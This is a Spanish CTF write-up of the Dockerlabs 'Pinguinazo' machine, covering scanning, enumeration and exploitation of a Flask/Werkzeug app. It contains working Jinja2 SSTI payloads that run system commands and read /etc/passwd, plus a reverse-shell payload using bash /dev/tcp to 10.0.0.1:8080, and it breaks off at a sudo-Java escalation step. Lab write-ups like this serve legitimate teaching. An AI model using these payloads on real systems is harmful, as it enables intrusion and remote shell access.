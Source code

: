 # Pinguinazo

### Descripción

Pequeño CTF en modo **[easy](https://mega.nz/file/oGMWiKoJ#l02GwzicvsgLaczCjTSqaJNl5-NGajklpOY3A3Tu9to)** de Dockerlabs.

---

## 🔎 Reconocimiento

La máquina objetivo se encuentra correctamente desplegada dentro de la red de laboratorio (en este caso, utilizando Docker).  
Dado que la dirección IP es conocida o fácilmente identificable dentro de este entorno controlado, esta fase se clasifica como **reconocimiento pasivo**.

![Reconocimiento](https://i.imgur.com/rs4PSAQ.png)

---

## 📡 Escaneo

Se realizó un escaneo con **Nmap** para identificar puertos abiertos y servicios:

```bash
nmap -p- --open -sC -sV --min-rate 5000 -n -Pn 172.17.0.2
```

El **target** corresponde a la IP de la máquina víctima: **172.17.0.2**

Resultados principales:

- Puerto **5000** abierto.
- Servicio en ejecución: aplicación Python con **Flask** y referencias a **Werkzeug**.

![Scan1](https://i.imgur.com/6UnWPSU.png)  
![Scan2](https://i.imgur.com/fZBZZWQ.png)

Incluso se observó la dirección MAC del objetivo.

---

## 📂 Enumeración

El siguiente paso fue buscar directorios y recursos ocultos.

Con **Gobuster**:

```bash
gobuster dir -u "http://172.17.0.2"   -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt   -t 20 -x php,txt,html,php.bak
```

El resultado fue limitado, por lo que se usó **dirb**, que reveló un recurso interesante:

![Dirb](https://i.imgur.com/FrTLh5h.png)

Se identificó `/console`, correspondiente a la **consola interactiva de Werkzeug**.  
En el código fuente de la web se encontraron datos sensibles como la **SECRET**, probablemente utilizada en la generación del PIN de acceso.

![Werkzeug1](https://i.imgur.com/qZt5KIJ.png)  
![Werkzeug2](https://i.imgur.com/C0b9r7G.png)

Además, la página principal contenía un formulario muy básico, con los siguientes puntos débiles:

- Input de correo en modo _readOnly_ (correo de administrador expuesto).
- Inputs sin validaciones (no requeridos).
- El campo _nombre_ parece usarse directamente como parámetro en el renderizado.

![Form1](https://i.imgur.com/KI8LbEo.png)  
![Form2](https://i.imgur.com/hekE1S3.png)

---

## 💥 Explotación

Se consideraron dos caminos:

1. **Bypass del PIN de Werkzeug**

   - Basado en parámetros como:
     - Usuario que ejecuta la app.
     - SECRET de la aplicación.
     - Dirección MAC de la máquina.
   - Existen scripts para generar posibles PINs, pero requieren tiempo y múltiples intentos válidos.

   ![Werkzeug Bypass](https://i.imgur.com/igjHHlp.png)

2. **Explotación del formulario principal**  
   Se probaron inyecciones:

   - **XSS**: `<script>alert('pwned');</script>`
   - **SSTI**: `{{ 2 * 8 }}`

   La inyección SSTI funcionó, confirmando vulnerabilidad en el render de templates.

![SSTI1](https://i.imgur.com/naclOMB.png)  
![SSTI2](https://i.imgur.com/0B2VOOy.png)

Ejemplo de payload ejecutando comandos del sistema:

```jinja
{{ config.__init__.__globals__['os'].popen('whoami').read() }}
```

Con Burp Suite (Repeater) se probó leer `/etc/passwd`:

![passwd1](https://i.imgur.com/rEyQTRG.png)  
![passwd2](https://i.imgur.com/aTAu5Gd.png)

✅ Quedó claro que la explotación vía SSTI era más directa y efectiva.

---

### 🌀 Reverse Shell

Se intentó una reverse shell usando la inyección SSTI. El payload exitoso fue:

```jinja
{{ self._TemplateReference__context.joiner.__init__.__globals__.os.popen(
  'bash -c "bash -i >& /dev/tcp/10.0.0.1/8080 0>&1"').read() }}
```

**Consideraciones previas**:

- Definir la IP de escucha y puerto.
- Levantar el listener con:
  ```bash
  nc -lvnp 8080
  ```

![ReverseShell1](https://i.imgur.com/UZWpEfu.png)  
![ReverseShell2](https://i.imgur.com/QNAHOy2.png)

Con esto se obtuvo acceso inicial a la terminal.

---

## 🔝 Escalación de privilegios

Se buscaron binarios con permisos SUID:

```bash
find / -perm -4000 2>/dev/null
```

![SUID](https://i.imgur.com/3B74T7F.png)

Aunque algunos binarios no eran explotables, se observó `/usr/bin/sudo` en la lista.  
Al ejecutar:

```bash
sudo -l
```

Se descubrió que la shell permitía ejecutar **Java** como root.

![SudoJava](https://i.imgur.com/nnztH1C.png)

---
